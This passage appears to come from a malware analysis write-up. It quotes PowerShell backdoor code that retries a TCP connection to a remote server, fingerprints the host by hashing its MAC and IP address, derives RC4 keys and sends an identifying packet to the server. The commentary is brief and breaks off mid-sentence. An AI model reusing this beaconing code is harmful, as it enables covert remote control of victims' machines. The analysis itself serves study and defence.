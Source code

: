 ```powershell
        $Ip = [System.Net.Dns]::GetHostAddresses($strIp);
        $Address = [System.Net.IPAddress]::Parse($Ip);

        while($True)
        {
            try {
                $Socket = New-Object System.Net.Sockets.TcpClient($Address, $UPort);
                if($Socket.Connected) {
                    break;
                }
            }
            catch {}
            Start-Sleep -Milliseconds 10000;
        }


```
This part is doing the same thing as the one above it 
#### Unique ID
```powershell
$SocketStream = $Socket.GetStream();
    
        #UniqueId Generate
        $HashObject = [Security.Cryptography.HashAlgorithm]::Create("MD5");
        $EncObject = New-Object System.Text.UTF8Encoding;
        $Ipv4Address = GetIpv4Address;
        $MacAddress  = GetMacAddress -Ipv4Address $Ipv4Address;
        $HashValue = $HashObject.ComputeHash($EncObject.GetBytes($MacAddress + $Ipv4Address));
        
        $StrTemp = [System.BitConverter]::ToString($HashValue);
        $StrUniqueId = RemoveHyphen -StrIn $StrTemp;
        $ByUniqueId = $EncObject.GetBytes($StrUniqueId);

        #RC4 Key Generate
        $SendKeyData = $EncObject.GetBytes($StrUniqueId + "_r");
        $RecvKeyData = $EncObject.GetBytes($StrUniqueId + "_s");

        $Global:SendKey = PrePare_Key -KeyData $SendKeyData;
        $Global:RecvKey = PrePare_Key -KeyData $RecvKeyData;

        #Send to Server OP_UNIQ_ID Message
        [uint16]$nOpCode       = [_OP_CODE]::OP_UNIQ_ID;        
        [uint32]$nUniqueIdLen  = $ByUniqueId.Length;
        [uint32]$nDataLen      = 4 + $nUniqueIdLen;

        $FirstPacket = New-Object System.Byte[](2 + 4 + $nDataLen);

        [Array]::Copy([BitConverter]::GetBytes($nOpCode),      0, $FirstPacket, 0,  2);
        [Array]::Copy([BitConverter]::GetBytes($nDataLen),     0, $FirstPacket, 2,  4);
        [Array]::Copy([BitConverter]::GetBytes($nUniqueIdLen), 0, $FirstPacket, 6,  4);
        [Array]::Copy($ByUniqueId,                             0, $FirstPacket, 10, $nUniqueIdLen);

        $SocketStream.Write($FirstPacket, 0, $FirstPacket.Length);
```
- A socket is being setup for transfer of data.
- A paramter called Unique ID is being generated which 
	